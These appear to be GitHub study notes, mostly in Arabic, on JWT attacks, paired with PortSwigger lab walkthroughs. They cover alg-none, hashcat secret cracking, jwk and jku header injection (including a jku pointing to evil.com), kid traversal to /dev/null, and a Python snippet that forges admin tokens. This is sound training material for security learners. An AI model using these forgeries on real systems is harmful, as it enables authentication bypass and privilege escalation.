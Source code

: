 # JWT      


- <details>
    <summary>what is JWT?</summary>
  
  # 🔐 JWT Attacks - مقدمة
  
  ## ما هو JWT؟
  
  -   **JWT = JSON Web Token** → معيار لتمثيل البيانات كـ JSON بين
      الأنظمة.
  -   غالبًا يُستخدم في:
      -   **Authentication** (تأكيد هوية المستخدم)
      -   **Session management** (إدارة الجلسات)
      -   **Access control** (تحديد الصلاحيات)
  
  ------------------------------------------------------------------------
  
  ## بنية JWT
  
  يتكون JWT من **3 أجزاء** مفصولة بنقطة `.`:
  
  1.  **Header** → معلومات عن التوكن (الخوارزمية، النوع).
  2.  **Payload** → البيانات (claims) مثل اسم المستخدم والصلاحيات.
  3.  **Signature** → توقيع يعتمد على مفتاح سري للتحقق من عدم التلاعب.
  
  مثال:
  
      xxxxx.yyyyy.zzzzz
  
  ------------------------------------------------------------------------
  
  ## مثال عملي - Payload
  
  ``` json
  {
      "iss": "portswigger",
      "exp": 1648037164,
      "name": "Carlos Montoya",
      "sub": "carlos",
      "role": "blog_author",
      "email": "carlos@carlos-montoya.net",
      "iat": 1516239022
  }
  ```
  
  ### ملاحظات:
  
  -   **Readable**: أي شخص يقدر يفك البيانات لأنها Base64Url (ليست مشفرة).
  -   **Integrity**: التوقيع هو اللي يمنع التلاعب بالبيانات.
  
  ------------------------------------------------------------------------
  
  ## دور الـ Signature
  
  -   التوقيع يتكون من:
  
          HMACSHA256( base64UrlEncode(header) + "." + base64UrlEncode(payload), secret )
  
  -   عند استلام التوكن، السيرفر يتحقق من صحة التوقيع.
  
  -   أي تعديل في **Header** أو **Payload** يجعل التوقيع غير صالح.
  
  ------------------------------------------------------------------------
  
  ## نصائح عملية
  
  -   جرب على [jwt.io](https://jwt.io) → فك التوكن وشوف التغيير في
      التوقيع.
  -   استخدم أدوات مثل **Burp Suite** أو **jwt_tool** لاختبار ثغرات JWT.
  
  ------------------------------------------------------------------------
  
    
  </details>




- <details>
     <summary>JWT attacks</summary>

  
  # JWT Attacks Notes
  
  ## 1. JWT vs JWS vs JWE
  
  -   **JWT (JSON Web Token)**: مجرد Format قياسي للـ Tokens. ممكن يكون
      Signed أو Encrypted.
  -   **JWS (JSON Web Signature)**: JWT معمول له **توقيع** (Signature)
      باستخدام خوارزمية زي HS256 أو RS256 عشان يضمن سلامة البيانات.
  -   **JWE (JSON Web Encryption)**: JWT معمول له **تشفير** كامل عشان يحمي
      المحتوى من إنه يتشاف.
  
  ------------------------------------------------------------------------
  
  ## 2. كيف تظهر ثغرات JWT؟
  
  -   **ضعف في التحقق من التوقيع**:\
      مثال: السيرفر يقبل الـ "alg": "none" → يعني يعتبر الـ Token صالح من
      غير أي توقيع.
  
  -   **ضعف في اختيار الخوارزمية**:\
      مثلًا السيرفر متوقع RS256 (مفتاح عام/خاص) لكن يسمح بالتحويل إلى
      HS256 باستخدام المفتاح العام كـ secret.
  
  -   **تسريب الـ Secret**:\
      لو الـ Secret ضعيف أو متسرب، المهاجم يقدر يولّد توكنات صحيحة.
  
  -   **عدم التحقق من الـ Claims**:
  
      -   تجاهل الـ `exp` → التوكن يفضل صالح بعد انتهاء صلاحيته.
      -   تجاهل الـ `aud` → المهاجم ممكن يستخدم التوكن في تطبيق مختلف.
  
  ------------------------------------------------------------------------
  
  ## 3. Impact (التأثير)
  
  -   انتحال هوية المستخدمين (Authentication Bypass).
  -   سرقة صلاحيات (Privilege Escalation).
  -   وصول إلى بيانات أو عمليات محمية.
  
  ------------------------------------------------------------------------
  
  ## 4. مثال على JWT
  
  Header:
  
  ``` json
  {
    "alg": "HS256",
    "typ": "JWT"
  }
  ```
  
  Payload:
  
  ``` json
  {
    "sub": "1234567890",
    "name": "Alice",
    "admin": true,
    "exp": 1724252214
  }
  ```
  
  Signature:
  
      HMACSHA256(base64UrlEncode(header) + "." + base64UrlEncode(payload), secret)
  
  ------------------------------------------------------------------------
  
  ## 5. أمثلة على الهجوم
  
  ### 5.1 Algorithm None Attack
  
  ``` json
  {
    "alg": "none",
    "typ": "JWT"
  }
  ```
  
  → السيرفر يقبل التوكن بدون توقيع.
  
  ### 5.2 RS256 to HS256 Attack
  
  -   السيرفر متوقع RS256 (مفتاح عام/خاص).\
  -   المهاجم يغيرها إلى HS256 ويستخدم المفتاح **العام** كـ secret لتوليد
      توقيع صحيح.
  
  ------------------------------------------------------------------------
  
  # ✅ الخلاصة
  
  -   دايمًا تحقق من صحة الخوارزمية.
  -   لا تستخدم `none` algorithm.
  -   استخدم Secrets قوية أو مفاتيح صحيحة.
  -   راقب وصحّح Claims زي `exp`, `aud`, `iss`.
  
  

  </details>




- <details>
    <summary>JWT Attacks - Brute-forcing Secret Keys</summary>
    
    # JWT Attacks - Brute-forcing Secret Keys
    
    ## الفكرة الأساسية
    - بعض خوارزميات التوقيع مثل **HS256 (HMAC + SHA-256)** تعتمد على **secret key** (سلسلة نصية عشوائية).
    - لو الـ secret ضعيف أو قابل للتخمين (زي كلمة مرور ضعيفة)، المهاجم يقدر يعمل:
      - إنشاء JWT بأي header و payload.
      - إعادة التوقيع باستخدام الـ secret المخمَّن.
      - الحصول على توقيع صحيح وبالتالي تزوير الـ JWT.
    
    ---
    
    ## أخطاء شائعة من المطورين
    - نسيان تغيير الـ default/placeholder secret.
    - نسخ كود من الإنترنت ونسيان تعديل الـ hardcoded secret.
    - استخدام أسرار ضعيفة أو مشهورة.
    
    ---
    
    ## أداة Brute-force: Hashcat
    - **Hashcat** بيستخدم لمهاجمة مفاتيح JWT بسرعة.
    - موجود مسبقًا في **Kali Linux**.
    - لازم يكون عندك:
      - JWT صالح (موقَّع من السيرفر).
      - wordlist فيها أسرار معروفة.
    
    ---
    
    ## الأمر المستخدم
    ```bash
    hashcat -a 0 -m 16500 <jwt> <wordlist>
    ```

    https://github.com/wallarm/jwt-secrets/blob/master/jwt.secrets.list
    
    - ``-a 0`` → هجوم dictionary.
    
    - ``-m 16500`` → مود JWT HS256.
    
    - ``<jwt>`` → التوكن الهدف.
    
    - ``<wordlist>`` → قائمة .
    
    
    #### النتيجة
    
    > Hashcat بيجرب كل secret من الـ wordlist.
    
    لو لقى مطابقة، هيطبع بالشكل:
    
    ```ruby
    <jwt>:<identified-secret>
    ```
    
    لو شغلت الأمر أكتر من مرة، لازم تضيف:
    
    ```
    --show
    ```
    
    
    ```
    hashcat -a 0 -m 16500 <jwt> /usr/share/seclists/Passwords/JWT/jwt.secrets.list
    ```
    ---
    
    <details>
    
    ```
    python3 jwt_tool.py <jwt> -S hs256 -k <secret>
    ```
    
    ```python
    import jwt
    
    payload = {"username": "attacker", "role": "admin"}
    secret = "the_secret_you_found"
    
    token = jwt.encode(payload, secret, algorithm="HS256")
    print(token)
    ```
    
    
    
        
    </details>


  </details>






- <details>
    <summary>JWT header parameter injections</summary>

    # JWT Header Injection - JWK Parameter Exploit
    
    ## 📌 الفكرة العامة
    الـ **JWT** بيتكون من:
    1. **Header** → بيحتوي على معلومات زى `alg` (الخوارزمية) و ممكن كمان يحتوي على حاجات إضافية زى `kid`, `jwk`, `jku`.
    2. **Payload** → البيانات (claims).
    3. **Signature** → توقيع بيتعمل باستخدام secret أو مفتاح خاص (private key).
    
    السيرفر لما يستقبل الـ JWT بيستخدم الـ **Header** عشان يعرف:
    - أى خوارزمية تستخدم للتأكد من التوقيع (`HS256` / `RS256`).
    - أى مفتاح يجيب ويستخدم (من الـ `kid` أو `jwk` أو `jku`).
    
    ---
    
    ## 📌 التركيز هنا: `jwk` Injection
    - `jwk` = **JSON Web Key** → عبارة عن **مفتاح عام (Public Key)** مكتوب فى شكل JSON.
    - المفروض السيرفر عنده **قائمة محدودة** من المفاتيح اللى يثق فيها.
    - لكن لو السيرفر **مُسيء التهيئة (Misconfigured)**، ممكن يقبل أى مفتاح عام **موجود داخل التوكن نفسه** 🤦.
    
    ---
    
    ## 📌 إزاى نستغل ده؟
    1. نولد زوج مفاتيح (RSA Public/Private).
       - عندنا المفتاح **الخاص** (Private) → نوقع بيه التوكن.
       - عندنا المفتاح **العام** (Public) → نحطه جوه الهيدر فى باراميتر `jwk`.
    
    2. نعدل الـ Payload (مثلاً نغير `role` من `user` إلى `admin`).
    
    3. نوقع التوكن باستخدام **المفتاح الخاص بتاعنا**.
    
    4. نحط المفتاح العام جوه الهيدر:
       ```json
       {
         "alg": "RS256",
         "typ": "JWT",
         "jwk": {
           "kty": "RSA",
           "e": "AQAB",
           "n": "....",  
           "kid": "myCustomKey"
         }
       }
       ```
    
    5. لو السيرفر بيقبل ده → هيستخدم المفتاح العام اللى إحنا حاطينه ويتأكد من التوقيع، وده هيكون صحيح لأننا وقعنا بالمفتاح الخاص بتاعنا.  
       🔥 وده بيدينا **تحكم كامل فى التوكن**.
    
    ---
    
    ## 📌 الخطوات العملية (مثال باستخدام Burp + JWT Editor Extension)
    1. فى Burp → افتح تبويب **JWT Editor Keys**.
    2. اعمل **Generate RSA Key**.
    3. ابعت الريكوست اللى فيه JWT لـ **Repeater**.
    4. روح على تبويب الـ **JSON Web Token**.
    5. عدل الـ Payload (مثلاً غير `user":"test"` لـ `user":"admin"`).
    6. اضغط **Attack → Embedded JWK**.
    7. اختار المفتاح اللى انت مولده.
    8. ابعت الريكوست الجديد للسيرفر.
       - لو Misconfigured → هيديك access كأنك Admin.
    
    ---
    
    ## 📌 الخلاصة
    - **الـ jwk Injection** = بنخدع السيرفر يخلى باله من المفتاح العام بتاعنا.
    - إحنا نوقع بالتوكن بمفتاحنا الخاص.
    - السيرفر يتأكد باستخدام المفتاح اللى إحنا حطينه → فالتحقق يعدى.
    - النتيجة: نتحكم فى التوكن ونعدل أى Claims (زي role → admin).
    
    
    
    ---
    
    




  </details>
 







- <details>
      <summary>JWT header parameter injections lead to SSRF</summary>

    # Injecting self-signed JWTs via the `jku` parameter
    
    ## الفكرة الأساسية
    الـ JWT (JSON Web Token) أحيانًا بيحتوي في الـ header على باراميتر اسمه `jku`.  
    الـ `jku` ده بيشير إلى **رابط (URL)** بيحتوي على ملف JSON فيه **JWK Set** (مجموعة مفاتيح عامة) واللي السيرفر بيستخدمها للتحقق من التوقيع.
    
    بدل ما المفتاح العام يكون محطوط مباشرة في الـ token (زي ما بيحصل مع `jwk`)، السيرفر بيروح يجيب المفتاح من الرابط اللي في `jku`.
    
    ---
    
    ## JWK Set
    ملف JWK Set هو JSON بيحتوي على Array من المفاتيح العامة (JWKs).  
    مثال:
    
    ```json
    {
        "keys": [
            {
                "kty": "RSA",
                "e": "AQAB",
                "kid": "75d0ef47-af89-47a9-9061-7c02a610d5ab",
                "n": "o-yy1wpYmffgXBxhAUJzHHocCuJolwDqql75ZWuCQ_cb33K2vh9mk6GPM9gNN4Y_qTVX67WhsN3JvaFYw-fhvsWQ"
            },
            {
                "kty": "RSA",
                "e": "AQAB",
                "kid": "d8fDFo-fS9-faS14a9-ASf99sa-7c1Ad5abA",
                "n": "fc3f-yy1wpYmffgXBxhAUJzHql79gNNQ_cb33HocCuJolwDqmk6GPM4Y_qTVX67WhsN3JvaFYw-dfg6DH-asAScw"
            }
        ]
    }
    ```
    
    ممكن تلاقي السيرفر بيعرض الملف ده في لينك ثابت زي:
    ```
    /.well-known/jwks.json
    ```
    
    ---
    
    ## إزاي ممكن نستغل ده؟
    لو السيرفر بيثق في أي لينك بيتحط في `jku` (من غير فلترة كويسة):
    
    1. نولّد زوج مفاتيح RSA خاص بينا (Private + Public).
    2. نجهّز JWK Set يضم المفتاح **العام** بتاعنا ونرفعه على سيرفر نتحكم فيه (مثلاً `https://evil.com/jwks.json`).
    3. نولّد JWT جديد ونحط في الـ header:
       ```json
       {
         "alg": "RS256",
         "jku": "https://evil.com/jwks.json",
         "kid": "المفتاح_اللي_جهزناه"
       }
       ```
    4. نوقّع التوكن بالمفتاح **الخاص** اللي عندنا.
    5. السيرفر هيروح يجيب المفتاح العام من لينك `jku` اللي إحنا حاطينه (بتاعنا) وبالتالي يصدّق التوكن.
    
    بكده نقدر نزور أي claims جوة التوكن (مثلاً ندي نفسنا role = admin).
    
    ---
    
    ## طرق الحماية
    - السماح بتحميل المفاتيح من دومينات موثوقة فقط (whitelist).
    - تجاهل أي `jku` جاي من المستخدم.
    - التحقق إن الدومين مش متلاعب فيه (ضد SSRF/URL parsing tricks).
    - استخدام certificate pinning بدل ما يعتمد على جلب مفاتيح ديناميكياً.
    
    ---
    
    ## ملخص
    - `jku` = URL بيحتوي على مفاتيح عامة.
    - لو السيرفر مش بيفلتر اللينك → المهاجم ممكن يرفع JWK Set خاص بيه.
    - ده يسمح له يوقّع JWT بالتوكن بتاعه → السيرفر يصدّق إنه valid.
    - النتيجة = **تزوير JWT + تصعيد صلاحيات**.
    
        
  </details>







- <details>
     <summary>JWT kid path traversal</summary>

    # JWT Attack using `kid` Parameter
    
    ## 🔹 الفكرة الأساسية
    - الـ JWT بيكون له **header** (فيه معلومات عن الخوارزمية والـ key).
    - في بعض الأحيان، الـ header يحتوي على **`kid` (Key ID)** → السيرفر بيستخدم القيمة دي عشان يعرف أي مفتاح (key) يستعمل في التوقيع.
    - الطبيعي: السيرفر يجيب المفتاح من database أو JWK Set بناءً على قيمة الـ `kid`.
    
    ---
    
    ## 🔹 نقطة الضعف
    - **الـ `kid` مش محدد له structure** → مجرد string عشوائي بيحدده المبرمج.
    - لو المبرمج عمل lookup للـ key بشكل unsafe (مثلاً يروح يفتح ملف بنفس اسم الـ `kid`)، ممكن المهاجم يستغل ده.
    
    ### مثال
    ```json
    {
      "kid": "../../path/to/file",
      "typ": "JWT",
      "alg": "HS256"
    }
    ```
    - هنا المهاجم بيعمل **Directory Traversal** بالـ `kid`.
    - السيرفر يروح يقرأ أي ملف من الـ filesystem ويستخدمه كـ secret key.
    
    ---
    
    ## 🔹 الهجوم
    لو السيرفر بيقبل **خوارزمية symmetric زي HS256**:
    1. تختار ملف معروف موجود في السيرفر (مثلاً `/dev/null` على Linux).
    2. `/dev/null` → بيكون دايمًا **فاضي** → أي قراءة منه ترجع **string فاضية**.
    3. تعمل sign للـ JWT باستخدام **secret = "" (empty string)**.
    4. السيرفر يقرأ `/dev/null` → يرجع برضه empty string → يظن إن التوقيع صحيح ✅.
    
    ---
    
    ## 🔹 الصعوبة العملية
    - مشكلة: Burp JWT Editor ما بيسمحش تعمل signing بــ empty string.
    - الحل: **استغلال bug** → وقته ممكن تبعت Base64 encoded null byte بدل ما تبعت empty string. ده بيخدع الـ extension ويخلي التوقيع valid.
    
    ---
    
    ## 🔹 الخلاصة
    - أي مكان السيرفر **بيثق في `kid`** من غير validation → ممكن يتحول لسلاح ضد السيرفر.
    - مهاجم يوجّه السيرفر يقرأ ملف ثابت (زي `/dev/null`) أو ملف فيه key معروف → ويوقّع بنفسه JWTs صحيحة.
    - النتيجة: **تخطّي المصادقة (Authentication Bypass)** أو **تزوير الصلاحيات (Privilege Escalation)**.
    
    

  </details>
















































----



<details>
  <summary>Lab: JWT authentication bypass via unverified signature</summary>


1. login as **`wiener : peter`**

```http
GET /my-account?id=wiener HTTP/2

Host: 0a560020036c2252813698d200c400be.web-security-academy.net

Cookie: session=eyJraWQiOiI4MWIxYTBiYy01NWNlLTRjOTAtYTE1Yi02ZTY0MzM1MTljNTAiLCJhbGciOiJSUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsImV4cCI6MTc1NjQyMDU2OCwic3ViIjoid2llbmVyIn0.cLk9QduwU-eyT0xFZwd-BmYuNWJbfadMd_vHQ6IROuHznq-A5R4OvFo7VF_AfDKhOvKCLQxRtEYOdJ-1rGZGkMhYQk36FpGH5m2FTAzqZWT5h2fKiGUhYM8s5p3Pms6R6KNf1vFuKT4yJEs0e-EtpseOIMSQ6wFTpItZz6Pv21abFIETe-pq-2fcgFMfyQs5fzwLbc30IwBhOC-0X1_lJuQiRCXM7Yh3_WbTF5Cw68R5UTaKIIl0SbyKd9rrUCs4dHVZJtQhDLVHsiqUHcJZyewV8PIe8TZHH3Zc0jJYdOEqJck_8EP2Jd8Mrsg1dHMTsQHjgVPODAqz4oc5opnYlw
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a560020036c2252813698d200c400be.web-security-academy.net/login
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers



```

### **`JWT`**

```json
eyJraWQiOiI4MWIxYTBiYy01NWNlLTRjOTAtYTE1Yi02ZTY0MzM1MTljNTAiLCJhbGciOiJSUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsImV4cCI6MTc1NjQyMDU2OCwic3ViIjoid2llbmVyIn0.cLk9QduwU-eyT0xFZwd-BmYuNWJbfadMd_vHQ6IROuHznq-A5R4OvFo7VF_AfDKhOvKCLQxRtEYOdJ-1rGZGkMhYQk36FpGH5m2FTAzqZWT5h2fKiGUhYM8s5p3Pms6R6KNf1vFuKT4yJEs0e-EtpseOIMSQ6wFTpItZz6Pv21abFIETe-pq-2fcgFMfyQs5fzwLbc30IwBhOC-0X1_lJuQiRCXM7Yh3_WbTF5Cw68R5UTaKIIl0SbyKd9rrUCs4dHVZJtQhDLVHsiqUHcJZyewV8PIe8TZHH3Zc0jJYdOEqJck_8EP2Jd8Mrsg1dHMTsQHjgVPODAqz4oc5opnYlw
```

- <details>
      <summary>jwt.io</summary>
 
     <img width="1183" height="326" alt="image" src="https://github.com/user-attachments/assets/48bc8145-7604-4124-987c-5add5170affa" />

  
   </details>


- <details>
      <summary>JWT editor burp</summary>

    <img width="732" height="713" alt="image" src="https://github.com/user-attachments/assets/9e106d7c-2521-4e54-98c5-3a348e5d417e" />

  
   </details>




<img width="741" height="125" alt="image" src="https://github.com/user-attachments/assets/554d6f72-cedc-4ccd-972f-4f2618b5b91c" />

<img width="1526" height="738" alt="image" src="https://github.com/user-attachments/assets/045c7041-0caf-4d5f-8838-4a11d70e3479" />


> change path to **`/admin`**

<img width="1498" height="657" alt="image" src="https://github.com/user-attachments/assets/24d92751-c0cb-4d14-ba46-0e5338441d7d" />

<img width="1356" height="557" alt="image" src="https://github.com/user-attachments/assets/0c504fb1-c66e-4c15-867b-9cf29892604e" />

<img width="1430" height="491" alt="image" src="https://github.com/user-attachments/assets/1e4b1cdc-88ad-4dd8-9c95-0d9023896589" />




  
</details>



<details>
    <summary>Lab: JWT authentication bypass via flawed signature verification</summary>

1. login as **`wiener : peter`**

<img width="747" height="613" alt="image" src="https://github.com/user-attachments/assets/49400493-6f82-4b6d-84ae-7872076d755e" />

> change **`algo`** to `none` and remove the signeture and change **``carlos``** to **``administrator``**

<img width="1505" height="731" alt="image" src="https://github.com/user-attachments/assets/6a59e0d7-bc8b-4d6c-bb91-b314fa9d88d4" />


> now change **`path`** to :

```http
GET /admin/delete?username=carlos HTTP/2
```

<img width="1505" height="734" alt="image" src="https://github.com/user-attachments/assets/4de7a1c3-ea34-4b8a-9a49-40a2b1d2d401" />

    
</details>







<details>
    <summary>Lab: JWT authentication bypass via weak signing key</summary>


```
eyJraWQiOiIwNjhlY2JkYy00YzQ2LTRlOWItODc5Zi02Y2QyZWVhNjNiZDAiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsImV4cCI6MTc1NjQyNDM0OCwic3ViIjoid2llbmVyIn0.c0YlOr9HLbE0Xuso36umnu2wiOsGd2BzArlCXI3_60M
```

<img width="742" height="614" alt="image" src="https://github.com/user-attachments/assets/45651d25-d4f7-434e-99d5-9667d0c0bcdb" />


```
hashcat -a 0 -m 16500 eyJraWQiOiIwNjhlY2JkYy00YzQ2LTRlOWItODc5Zi02Y2QyZWVhNjNiZDAiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsImV4cCI6MTc1NjQyNDM0OCwic3ViIjoid2llbmVyIn0.c0YlOr9HLbE0Xuso36umnu2wiOsGd2BzArlCXI3_60M /usr/share/seclists/Passwords/scraped-JWT-secrets.txt
```

<img width="1374" height="273" alt="image" src="https://github.com/user-attachments/assets/f9e1cded-604e-47a2-834f-157ba0aba4c7" />

```
secret1
```

<img width="1546" height="745" alt="image" src="https://github.com/user-attachments/assets/09176375-61b2-4e35-9181-8eab68b53d87" />

> now change **`path`** to :

```http
GET /admin/delete?username=carlos HTTP/2
```

<img width="1492" height="649" alt="image" src="https://github.com/user-attachments/assets/87127834-aeb3-4d22-b683-7c305bc7849e" />




    
</details>







<details>
    <summary>Lab: JWT authentication bypass via jwk header injection</summary>


```json
eyJraWQiOiJiZjFhOTg1Zi00NDgwLTQ1MmQtODQzZS0wMjIyMGUzZTg2YmYiLCJhbGciOiJSUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsImV4cCI6MTc1NjQyODc5MSwic3ViIjoid2llbmVyIn0.f2YN61RhTmuZSUdncWJi6PKVky_FYVsWfPW1ue50xJBGExuDmIpl7Ufhy8DlgGN_q2XWI0x5JG85bhoUcLc-8wed0RSPuu0P1C0g-f9naycBtAUDb_wNFCR7WdDSn-L8JJd8UWJS4-XAozvW9EFMk4q5D0YlfsCWPz2oe_JLKlvUug12MN3vRYp_wVgpzumwfAhrMowNNFpBOIjaBxc_hQXMmJ65qnqQD9h2lViue1PAPgXoHmLQUkl9qrvrEMTATCdlgQDFlmPAbgJxn4sVIDtTsi6cxLjaNnpip6fldEyexxSaE3U9x7rnrgTQf0k5vOrpxwtcgp_u1a6dmGPINg
```


<img width="737" height="568" alt="image" src="https://github.com/user-attachments/assets/2e653954-72a1-45bc-9d5f-e9ca6f2923c1" />


---

> genrate ``RSA key``

<img width="798" height="656" alt="image" src="https://github.com/user-attachments/assets/5150b333-3fb7-4639-ab77-3c8bbb26b8fe" />


<img width="742" height="675" alt="image" src="https://github.com/user-attachments/assets/e3a19886-667c-4798-a3dd-2721db6b47fa" />


---

> send the request

<img width="1544" height="635" alt="image" src="https://github.com/user-attachments/assets/4756464e-c1fc-4120-9c2d-b098c596c390" />


----

> now change the path 

```
/admin/delete?username=carlos
```

<img width="1498" height="671" alt="image" src="https://github.com/user-attachments/assets/e2a03383-f021-41df-81e0-ac7105e16b12" />



<details>

## 1. إيه المفروض يحصل (السليم)؟

```


لما السيرفر يستقبل JWT موقّع، لازم يتأكد من التوقيع باستخدام المفتاح الصحيح فقط (secret أو public key اللي هو مبرمج عليه).

المفروض السيرفر مايثقش في أي مفتاح جاي من الكلاينت.
```

---

## 2. الغلط في الـ jwk injection

```


في بعض السيرفرات (لو misconfigured) بيكون الكود مكتوب بحيث يقرأ jwk من الـ JWT نفسه.

يعني السيرفر بدل ما يكون عنده public key ثابت يتحقق بيه، بيقول:
"تمام، الكلاينت بعتلي المفتاح بتاعه في الـ jwk.. هستخدمه للتحقق من التوقيع".

هنا الغلط: السيرفر بيثق في أي RSA key يبعته المهاجم.
```



<img width="1536" height="1024" alt=" Image Aug 29, 2025, 03_05_28 AM" src="https://github.com/user-attachments/assets/069ba80b-1485-41da-a7d8-da7467611bca" />


    
</details>

    
    
</details>





<details>
    <summary>Lab: JWT authentication bypass via jku header injection</summary>

```
eyJraWQiOiJjZmRmYTMyMS00YWZiLTRiZDUtODVlMS1lOTc1ODE3OGM3MTkiLCJhbGciOiJSUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsImV4cCI6MTc1NjUxMDAzOSwic3ViIjoid2llbmVyIn0.s_HN8Ym6FyTityp_B97oktH_TDGl0asia1ZBLgOue250fh60YvGcsof55XD7UXBsrodedGLLL_ou60RKuneFFCHFH6LmoGaoDec-866Bgfn7FJNcEuv7gK6Ao6UD0KI-MomyiLC9aA2UJ4N1quA2H_FQjSYj3atSUgETRuQW6VROKuFEEfguFpe4Yn9SOxQbH4gBdHZi_u4oAl1NOwmI3x5RUTw90b9W6FvA3DJUeGUdIsE2RSejEqcgIhP3bjkP4mlh9_Q0m5J7DLpYGXB5_MAjcy064xGNTBMji3yHaIup0tBhcvmNCsZ7M8h9wysUaraRdWCq4LIVEv6wbPkbFA
```

<img width="748" height="718" alt="image" src="https://github.com/user-attachments/assets/3602e8cc-d8b6-4806-96ef-8a1cebb3ef8c" />

----

> ## first we need to create new **`RSA key`** :

<img width="1022" height="566" alt="image" src="https://github.com/user-attachments/assets/4ae83bd0-a868-45e9-9483-ae9c0bf6f933" />

> ## now do **`copy public key as jwk`** and put it on exploit server and click ``store``

<img width="629" height="258" alt="image" src="https://github.com/user-attachments/assets/2d7ac00d-d32b-41f5-ba7f-34877dd31b88" />

<img width="1335" height="375" alt="image" src="https://github.com/user-attachments/assets/fdfb45fa-4583-4b3a-b8b2-b58cd1edeaff" />

```json
{
    "keys": [
        {
    "kty": "RSA",
    "e": "AQAB",
    "kid": "4a39d446-dd24-4c7e-86b8-183a1ac079a0",
    "n": "tb58PeMrMiHDWHPlUgrCVJjiq0oR44e8DN5K0lyJR0pA0qpctF_3_vubDlUL7pkrviNdEeJuVRrvB5nJmGi_q78ahHm-4Ik6eH9r7KFhM22ki4VZFH-kvWMpCBAv_4P8-4Z21ZPhUjxFHAA_PxF0_WawIxgXpNcxm9n_bry2f2zjQg4NX8cA_-WxTR71n9B8BNWbSkcVk6jcmjhj9Q-N1dYbBi1kLjtWH1qqf08icrD5CQ1hV0gGc5x0gOk_6wNAT5pf1u6krvVnkzSHSkwyUAhV9fqjk7-KEfPJ2JCpIudj5WuJh-52m-Sf5fUc3owfpV_w8K-FBJmTDs_K2wg5OQ"
}
    ]
}
```

> ## now take the `"kid"` and `exploit server url`

```
4a39d446-dd24-4c7e-86b8-183a1ac079a0
```

```
https://exploit-0a1d00cb047f301a8160c9ac01d800dd.exploit-server.net/exploit
```

----

> ## change the header in burp suite:
> 1. put the new **`"kid"`**
> 2. set a new key **`"jku"`** with exploite server url
> 3. change user to **`administrator`**

<img width="809" height="695" alt="image" src="https://github.com/user-attachments/assets/10e4f9a0-7568-48eb-8373-3c23fa5170a8" />

```json
{
    "kid": "4a39d446-dd24-4c7e-86b8-183a1ac079a0",
    "alg": "RS256",
    "jku": "https://exploit-0a1d00cb047f301a8160c9ac01d800dd.exploit-server.net/exploit"
}
```

```json
{
    "iss": "portswigger",
    "exp": 1756510039,
    "sub": "administrator"
}
```


> click **`sign`** and send the request



<img width="1594" height="785" alt="image" src="https://github.com/user-attachments/assets/22276224-fe3a-4826-a350-da9a9c154296" />

> change path to **`GET /admin/delete?username=carlos HTTP/2`**

<img width="1521" height="758" alt="image" src="https://github.com/user-attachments/assets/73a69ba9-8e3e-4b91-8916-354155a84fbe" />

    
</details>











<details>
    <summary>Lab: JWT authentication bypass via kid header path traversal</summary>


```json
eyJraWQiOiJlZDZjYmIwYy03MDdhLTQ3MGYtYmYzOS01NjQwOTU3YTYwMGMiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsImV4cCI6MTc1NjUxMzY0Mywic3ViIjoid2llbmVyIn0.BwlNCmoE1ZZZu1eXcR_dMRjnfI-NFAvn_-RuVvEzfA0
```

<img width="745" height="680" alt="image" src="https://github.com/user-attachments/assets/147e9e71-80ea-4963-a97c-bb7aa416ecef" />


> ## now try to change **`"kid"`** to **``../../../../../dev/null``**

```json
{
    "kid": "../../../../../dev/null",
    "alg": "HS256"
}
```

> ## so the server will check if the **`k`** equel to the value in **`../../../../../dev/null`** so we need to put the **`k`** empty
> but burp refuse so we can put **``AA==``** instead this is null in base64

<img width="1073" height="591" alt="image" src="https://github.com/user-attachments/assets/4abb0c4a-435b-474f-8486-2d41e917a1af" />

> ## click **`sign`**
> - change user to **`administrator`**

<img width="737" height="568" alt="image" src="https://github.com/user-attachments/assets/4b61e028-0369-45d5-a187-b7035aad516c" />

> ## send the request



<img width="1530" height="759" alt="image" src="https://github.com/user-attachments/assets/652efa50-1b1c-4fe7-b134-a180a6ff4f6b" />

> change path to **`GET /admin/delete?username=carlos HTTP/2`**

<img width="1502" height="728" alt="image" src="https://github.com/user-attachments/assets/315c0911-891d-4e9b-82c1-28d8d0719f6d" />

    
</details>















